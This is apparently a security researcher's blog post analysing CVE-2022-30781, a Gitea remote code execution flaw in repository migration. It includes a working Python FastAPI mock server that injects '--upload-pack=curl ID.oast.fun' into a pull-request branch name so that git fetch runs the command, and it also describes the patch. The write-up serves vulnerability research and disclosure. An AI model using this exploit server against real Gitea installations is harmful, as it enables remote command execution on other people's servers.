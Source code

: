 ```yaml
---
title: Analysis of CVE-2022–30781
date: "2025-04-10"
excerpt: "How Git Fetch Resulted in Critical Remote Code Execution in Gitea."
tags: ["Gitea", "RCE", "git", "research","cve"]
author: "MindPatch"
---
```

---

How Git Fetch Resulted in Critical Remote Code Execution in Gitea

![](https://miro.medium.com/v2/resize:fit:477/0*7XgQCsp0nd9dRoQo.png)


**Good Morning, Everyone!**

In today’s post, I’ll dive into an analysis of  **CVE-2022–30781**, a critical vulnerability found in the Gitea platform. This CVE allows attackers to execute remote code on the affected server, posing a significant security risk.

Here’s what we’ll cover:

1.  **Understanding How the CVE Works**
2.  **Writing Our Own Exploit**
3.  **How the Gitea Team Fixed It**

Let’s jump in and enjoy

## Import your Git repo here

in every git platform like gitea, it has a feature that allows you to import all your repo from another platform or different git server into your platform in single click which called  **Migration**

but beside .git repo it's also provides some other options to

-   pull requests
-   Wiki page
-   issues

![](https://miro.medium.com/v2/resize:fit:610/1*WbwcS7_bkRCKzFRpqfbAGQ.png)

and in order to extract these data gitea communicate with the chosen platform API in order to import this data

and in one of these options is migrate a repo from another gitea server, and by choosing this option you can notice in logs a few requests from gitea for these endpoints

![](https://miro.medium.com/v2/resize:fit:1000/1*L1GbLaJQJ5ci-rF6n69WCg.png)

and one of these endpoints returns the repo pull requests information including the pull request branch, and then gitea will fetch this branch using  `$ git fetch <remote> <branch>`

![](https://miro.medium.com/v2/resize:fit:1000/1*_NpVmALCvNOrfyiALbmzUA.png)

and as you can see, we cannot Espace using whitespace here in order to get that RCE

## Fetch options

The Fetch git subcommand has a few different options you can find here ([Git — git-fetch Documentation](https://git-scm.com/docs/git-fetch))

and the interesting one here is  **— upload-pack** option

> — upload-pack <upload-pack>
> 
> When given, and the repository to fetch from is handled by  **git fetch-pack**,  `--exec=<upload-pack>`  is passed to the command to specify non-default path for the command run on the other end.

So, Using this option lets us change the default path of the  `git-upload-pack`  tool. This can potentially lead to Remote Code Execution (RCE).

To exploit this, we could inject  `--upload-pack='CMD'`  into a branch name or a remote repository. However, Git itself doesn’t allow this directly. 😞

But as mentioned earlier, Gitea servers use APIs to fetch repository information. So, we can set up a mock server to return fake data. When the server asks for the pull request branch, we can include the  `--upload-pack`  option in the response and check if it gets executed

## Writing The Exploit

In writing the exploit process I always chose python as its the fastest and painless option for me, but you can pick what you like

lets go write our exploit, and this one requires us first to see what gitea api client expect the response so we make sure it gets parsed right

and this step can be done easily after analysing the gitea Swagger file, and after review it I came up with this simple API written in FastAPI


```python
from fastapi import APIRouter  
  
router = APIRouter(prefix="/api/v1")  
RCE_PAYLOAD = "curl ID.oast.fun"  
  
  
# Mock data for some endpoints  
MAX_RESPONSE_ITEMS = 50  
DEFAULT_PAGING_NUM = 30  
DEFAULT_GIT_TREES_PER_PAGE = 1000  
DEFAULT_MAX_BLOB_SIZE = 10485760  
full_uri = "http://localhost:3000/"  
  
@router.get("/version")  
async def get_version():  
    return {"version": "1.16.6"}  
  
@router.get("/settings/api")  
async def get_settings():  
    return {  
        "max_response_items": MAX_RESPONSE_ITEMS,  
        "default_paging_num": DEFAULT_PAGING_NUM,  
        "default_git_trees_per_page": DEFAULT_GIT_TREES_PER_PAGE,  
        "default_max_blob_size": DEFAULT_MAX_BLOB_SIZE,  
    }  
  
@router.get("/repos/{owner}/{repo}")  
async def get_repo_info(owner: str, repo: str):  
    """  
    Returns repository information for a given owner and repo.  
    """  
    return {  
        "clone_url": f"{full_uri}{owner}/{repo}",  
        "owner": {"login": owner},  
    }  
  
@router.get("/repos/{owner}/{repo}/topics")  
async def get_repo_topics(owner: str, repo: str):  
    return {"topics": []}  
  
@router.get("/repos/{owner}/{repo}/pulls")  
async def get_repo_pulls(owner: str, repo: str):  
    """  
    Returns pull requests for a given repository.  
    """  
    return [  
        {  
            "base": {"ref": "master"},  
            "head": {  
                "ref": f"--upload-pack={RCE_PAYLOAD}",  
                "repo": {  
                    "clone_url": "./",  
                    "owner": {"login": "master"},  
                },  
            },  
            "updated_at": "2001-01-01T05:00:00+01:00",  
            "user": {},  
        }  
    ]
```

As you can see in the pulls endpoint, I was able to inject the  `--upload-pack`  option into the  `ref`, which corresponds to the pull request's base branch.

Now, let’s test it. I ran the API, created a new migration in Gitea, and set the repository URL to  `myapi/test/test`. Additionally, I enabled the option to fetch pull requests, ensuring that it pulls the repository's pull requests during the migration process

And as you can See :)

[![VIDEO POC](https://img.youtube.com/vi/9KOjRB9IKSo/0.jpg)](https://www.youtube.com/watch?v=9KOjRB9IKSo)


In the background, the following command was executed:  
`$ git fetch origin --upload-pack='curl <host>'`

This caused Gitea to make the specified  `curl`  request, demonstrating that the RCE was successfully exploited as a proof of concept (PoC)

## Patching the bug

Gitea team fixed this bug by using  `--`, which forces Git to treat everything following it as a plain string rather than a parsable option, This effectively resolves the issue.

![](https://miro.medium.com/v2/resize:fit:1000/1*lreFlMwsoRz_970hBC3siA.png)

And that’s it! I hope you found this helpful.

You can access the testing lab and the exploit at:  
[latestpocs/CVE-2022–30781/gitea_poc at master · MindPatch/latestpocs](https://github.com/MindPatch/latestpocs)

Take care, and see you next time! 🙂
